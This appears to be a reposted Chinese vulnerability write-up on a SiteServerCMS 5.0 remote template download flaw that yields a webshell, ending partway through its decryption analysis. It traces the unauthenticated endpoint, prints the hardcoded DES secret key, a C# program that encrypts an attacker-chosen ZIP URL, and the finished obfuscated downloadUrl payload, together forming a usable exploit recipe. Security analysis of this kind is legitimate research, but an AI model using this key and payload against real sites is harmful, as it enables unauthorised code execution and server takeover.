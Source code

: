 # SiteServerCMS-Getshell-
SiteServerCMS 5.0远程模板下载Getshell漏洞
Author:1u0hun
From:https://www.freebuf.com/articles/web/195105.html

0x00 漏洞概述
通过了解，得知被攻击的网站使用的是siteserver cms，为开源免费cms框架，官网https://www.siteserver.cn/，捕获到的“0 day”是通过远程模板下载getshell，漏洞缺陷是由于后台模板下载位置未对用户权限进行校验，且 ajaxOtherService中的downloadUrl参数可控，导致getshell，目前经过测试发现对5.0版本包含5.0以下通杀

0x01 漏洞分析
可以看到利用的是ajaxOtherService.cs中的SiteTemplateDownload功能模块，使用notepad++搜索到该功能模块如下。发现在ajaxOtherService.cs文件中确实存在函数调用接口SiteTemplateDownload(stringdownloadUrl, string directoryName, string userKeyPrefix)image.png

其中downloadUrl就是远程文件的URL地址，directoryName是下载到本地之后命名的模板目录，userKeyPrefix是加密的密钥，继续审核此文件，整理出整个函数调用流程如下，首先在AjaxOtherService.cs文件中使用Page_Load函数负责加载整个页面，然后通过request[‘type’]获取到不同的操作类型，如果获取到的type为TypeSiteTemplateDownload ，就会执行其request参数值的相关功能，其中最重要的一步操作就是此时先调用了DecryptStringBySecretKey函数将downloadurl先进行了解密，之后调用SiteTemplateDownload函数进行模板下载并自解压。 image.png

在AjaxOtherService类中通过常量中已经定义了TypeSiteTemplateDownload = “SiteTemplateDownload”;image.png

因此当type等于SiteTemplateDownload时就会调用SiteTemplateDownload函数，逻辑非常的清楚，接下来分析downloadurl到底是怎么解密的，这也是本次审计的重点，毕竟其他逻辑非常清楚了，通过调用TranslateUtils.DecryptStringBySecretKey函数进行解密，通常开发习惯就是类名与文件名基本保持一致，因此很容易找到该文件image.png

通过分析源代码可知，这里将DecryptStringBySecretKey函数进行重载，在调用DecryptStringBySecretKey(string inputString)时候，实际上调用的是下面带secretKey的同名函数DecryptStringBySecretKey(stringinputString, string secretKey)，分析该函数其中secretKey是取自WebConfigUtils.SecretKey的值，通过审计WebConfigUtils.cs文件可知，该值是从配置文档web.config中取得对应字段值。SecretKey的值可以在web.config文件中找到。

image.png

解密函数DecryptStringBySecretKey(string inputString, string secretKey)中secretKey的参数值同样为WebConfigUtils.SecretKey的值,继续分析该函数，可以看到先进行了混淆字符，将字符“+=&?’/”替换成DES加密后的密文。image.png

这里使用python脚本去除混淆，恢复原DES密文。image.png

程序去除混淆之后调用DES模块并实例化encryptor对象调用DesDecrypt解密函数，在实例化对象时将inputString和secreKey传入。使用菜鸟教程http://www.runoob.com/调试运行下核心的加解密代码传入参数_encryptKey和_inputString加密代码调试如下_inputString传入任意黑客构造的地址，_encryptKey传入密钥。

using System; 
using System.IO; 
using System.Security.Cryptography; 
using System.Text; 
namespace EncryptApplication 
{ class Encrypt 
    { static void Main(string[] args) 
      { 
        var _encryptKey = "vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5"; 
        var _decryptKey = "vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5";
        var _inputString = "http://127.0.0.1:99/txt2.zip";
        var _outString = ""; var _noteMessage = "";
        byte[] iv = { 0x12, 0x34, 0x56, 0x78, 0x90, 0xAB, 0xCD, 0xEF };
        try{ 
           var byKey = Encoding.UTF8.GetBytes(_encryptKey.Length > 8 ? _encryptKey.Substring(0, 8) : _encryptKey); 
          var des = new DESCryptoServiceProvider(); 
          var inputByteArray = Encoding.UTF8.GetBytes(_inputString); 
          var ms = new MemoryStream(); 
          var cs = new CryptoStream(ms, des.CreateEncryptor(byKey, iv), CryptoStreamMode.Write);     cs.Write(inputByteArray, 0, inputByteArray.Length);
         cs.FlushFinalBlock();
          _outString = Convert.ToBase64String(ms.ToArray()); 
         Console.WriteLine("DesEncrypt:"); Console.WriteLine(_outString); }
      catch (Exception error) { _noteMessage = error.Message; } 
 } } }
f1.png

执行之后获取其加密downloadurl如下：ZjYIub/YxA3QempkVBK4CoiVo3M607H/TBf7F0aPcUE=， 使用python代码混淆该url，得到最后利用的downloadurlf2.png

混淆之后的downloadurl为：ZjYIub0slash0YxA3QempkVBK4CoiVo3M607H0slash0TBf7F0aPcUE0equals00secret0，解密的步骤与加密相反，首先将混淆后的下载地址去除混淆。去混淆py代码去混淆后密文如下：

ZjYIub/YxA2nYLIZNDeUmdd3GBhwbuBXI4s2bpH2CVmtg2H/QGZ4+ZW0iiVbi/MDytVnpZKliDw=，

解密函数调试如下，传入_inputString和密钥 
f3.png



